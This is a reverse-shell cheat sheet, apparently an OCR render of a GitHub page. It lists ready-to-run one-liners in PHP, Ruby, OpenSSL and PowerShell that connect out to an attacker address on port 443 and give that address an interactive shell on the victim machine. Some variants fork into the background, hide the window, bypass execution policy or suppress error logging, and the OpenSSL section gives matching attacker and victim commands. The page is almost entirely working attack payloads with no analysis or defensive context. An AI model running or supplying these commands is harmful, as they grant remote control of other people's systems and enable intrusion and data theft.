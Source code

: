 `php -r '$s=fsockopen("1.1.1.1",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'`

`php -r '$s=\'127.0.0.1\';$p=443;@error_reporting(0);@ini_set("error_log",NULL);@ini_set("log_errors",0);@set_time_limit(0);umask(0);if($s=fsockopen($s,$p,$n,$n)){if($x=proc_open(\'/bin/sh$IFS-i\',array(array(\'pipe\',\'r\'),array(\'pipe\',\'w\'),array(\'pipe\',\'w\')),$p,getcwd())){stream_set_blocking($p[0],0);stream_set_blocking($p[1],0);stream_set_blocking($p[2],0);stream_set_blocking($s,0);while(true){if(feof($s))die(\'connection/closed\');if(feof($p[1]))die(\'shell/not/response\');$r=array($s,$p[1],$p[2]);stream_select($r,$n,$n,null);if(in_array($s,$r))fwrite($p[0],fread($s,1024));if(in_array($p[1],$r))fwrite($s,fread($p[1],1024));if(in_array($p[2],$r))fwrite($s,fread($p[2],1024));}fclose($p[0]);fclose($p[1]);fclose($p[2]);proc_close($x);}else{die("proc_open/disabled");}}else{die("not/connect");}'`

# Ruby:

`ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

`NOTE: Windows only`
`ruby -rsocket -e 'c=TCPSocket.new("1.1.1.1","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

# OpenSSL:

#### Attacker:

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`

`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`
  or
`ncat --ssl -vv -l -p 443`

 #### Victim:

`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.1.1.1:443 > /tmp/s; rm /tmp/s`

# Powershell:

`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("1.1.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
